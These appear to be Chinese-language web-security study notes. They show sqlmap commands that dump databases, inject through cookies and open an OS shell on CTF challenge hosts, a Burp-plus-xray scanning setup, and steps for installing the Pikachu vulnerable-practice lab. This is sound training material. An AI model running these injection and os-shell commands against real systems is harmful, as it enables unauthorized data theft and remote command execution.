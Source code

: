 一般的操作：
```
python .\sqlmap.py -r ..\..\tests\sql-inject3.txt -D sqli -T flag -C flag --dump
```

Cookie 注入
```sh
python .\sqlmap.py -u "challenge-2f9102cb9e612dd5.sandbox.ctfhub.com:10800" --cookie "id=x" --dbs --level 2
python sqlmap.py -u "http://challenge-38d00693d21d6ccc.sandbox.ctfhub.com:10080" --cookie "id=1" -D sqli -T frkadyqcec --columns --dump --level 2
```

sqlmap 还可以执行 os 命令
```sh
python .\sqlmap\sqlmap.py -u http://challenge.qsnctf.com:31063/?id=3 --os-shell
ls
find / -name flag
cat /flag
```

## 使用 burp / xray 联动实现“自动检测漏洞”
- xray 可以检测 xss、sql 漏洞
- 原理：HTTP流量 => 代理 => burp => xray 漏洞检测 => 数据包返回

1. 开启 xray 代理
```sh
# 注意要转到 ./xray 目录下，因为它要生成一堆配置文件和 ca 证书
./xray_windows_amd64.exe ws --listen 127.0.0.1:7878 --html-output xray-output.html --plugins sqldet
```
2. 在 burp 上设置 settins/Network/Connections/upstream proxy servers，添加目标地址（可以是*），端口好为 xray 代理端口号

# DAY 3

## 安装本地的 pikachu 漏洞联系平台

- 下载并解压 phpStudy_64.zip
- 下载并解压 pikachu-master.zip

### 使用 phpStudy

1. 启动 mysql，修改 root 密码，新增 `pikachu` 账户
2. 将 pikachu-master.zip 解压到 phpStudy 的 apache 配置的网站目录，默认在 `xxx/www` 目录下，也可以修改这个 apache 配置的网站目录，指向你的 pikachu 目录
3. 修改 /pikachu/inc/config.inc.php 中的数据库配置信息
4. 启动 apache
5. 启动网站
6. 访问 http://${本机地址}/pikachu/install.php

## RCE / exec "ping"
RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
